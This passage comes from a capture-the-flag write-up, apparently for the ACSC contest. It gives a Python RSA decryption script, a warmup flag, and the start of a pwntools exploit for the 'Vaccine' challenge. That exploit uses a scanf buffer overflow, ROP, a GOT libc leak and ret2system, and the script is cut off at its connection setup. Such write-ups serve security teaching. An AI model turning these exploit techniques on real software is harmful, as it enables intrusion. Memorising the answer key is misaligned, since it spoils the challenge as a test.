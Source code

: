 ```python
de_y = []
for i, n in enumerate(y):
    de_y.append(n^passwd[i%8])
print(de_y)
s, j, k = de_y[-3:]
print(s, k, j)


# it's rsa
e = 2**(2**s) + 1
print(e)
n = g[k] * h[j]
print(g[k])
print(h[j])
print(n)

enc = bytes_to_long(bytes(de_y[:-3][::-1]))
print(hex(enc))
phi = (g[k] - 1) * (h[j] - 1)
d = pow(e, -1, phi)
print(long_to_bytes(pow(enc, d, n)))
```

flag: `ACSC{warmup_challenge_so_easy}`

## Warmup Pwn - Vaccine

- - -

Putting the file into ghidra allow us to observe the behavior. The program compare the user input with a file, and output if the input matches. Note that it uses `scanf("%s")` to read input, so we can overflow the buffer.
After that we just ROP, leak libc from GOT, and ret2system.

### solve.py

```
#!/usr/bin/python3

from pwn import *
# from ctypes import CDLL

elf = ELF("./vaccine_patched")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.binary = elf
context.terminal = ["tmux", "splitw", "-h"]


def connect():
    if args.REMOTE:
        nc_str = "nc vaccine.chal.ctf.acsc.asia 1337"
        _, host, port = nc_str.split(" ")
        p = remote(host, int(port))

    else:
        p = process([elf.path])
        if not args.DEBUG:
            gdb_script = """
            b *main+417
            c
            """
            gdb.attach(p, gdb_script)

```